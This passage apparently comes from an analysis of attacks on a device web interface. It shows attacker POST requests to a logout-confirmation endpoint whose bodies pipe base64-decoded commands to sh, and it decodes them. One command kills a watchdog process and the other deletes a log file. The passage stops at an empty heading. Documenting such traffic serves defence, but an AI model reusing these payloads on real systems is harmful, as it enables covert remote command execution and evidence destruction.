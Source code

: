 ## next:

POST /webui/logoutconfirm.html?logon_hash=4cd071837ad02a65a8549923e084c4deabc9414f&common_type=subsystem HTTP/1.1

## with the body: 

python -m base64 -d <<< CmtpbGxzY3JpcHRzKCl7CiAgICBLSUxMTkFNRT0iJDEiCiAgICBQSUQ9YHBzIC13d2F4IHwgZ3JlcCAke0tJTExOQU1FfSB8IGdyZXAgLXYgZ3JlcCB8IGN1dCAtYyAxLTVgCiAgICBmb3IgaSBpbiAkUElEOyBkbwogICAgICAga2lsbCAtOSAkaQogICAgZG9uZSAgICAKfQpraWxsc2NyaXB0cyBwdnBfd2QK | sh


## the base64 value translates to the following commands: 

killscripts(){
    KILLNAME="$1"
    PID=`ps -wwax | grep ${KILLNAME} | grep -v grep | cut -c 1-5`
    for i in $PID; do
       kill -9 $i
    done    
}
killscripts pvp_wd


## next:

POST /webui/logoutconfirm.html?logon_hash=4cd071837ad02a65a8549923e084c4deabc9414f&common_type=subsystem HTTP/1.1

## with the body: 

python -m base64 -d <<< ICAgICAgICAKTE9HX1BBVEg9YGNhdCAvdmFyL3NjcmlwdHMvbHVhL2ZlYXR1cmVzL2xvZ0FuYWx5c2lzLmx1YSB8IGdyZXAgJ2xvZ3NQYXRoID0gIicgfCBzZWQgLWUgJ3MvXi4qbG9nc1BhdGggPSAiLy8nIC1lICdzLyIuKiQvLydgCmlmIFsgISAteiAiJHtMT0dfUEFUSH0iIF0KdGhlbgogICAgcm0gLWYgIiR7TE9HX1BBVEh9IgpmaQo= | sh

## the base64 value translates to the following commands: 

LOG_PATH=`cat /var/scripts/lua/features/logAnalysis.lua | grep 'logsPath = "' | sed -e 's/^.*logsPath = "//' -e 's/".*$//'`
if [ ! -z "${LOG_PATH}" ]
then
    rm -f "${LOG_PATH}"
fi

## then we see a POST request:

POST /webui/logoutconfirm.html?logon_hash=4cd071837ad02a65a8549923e084c4deabc9414f&common_type=iox HTTP/1.1

## with the following bodies: 
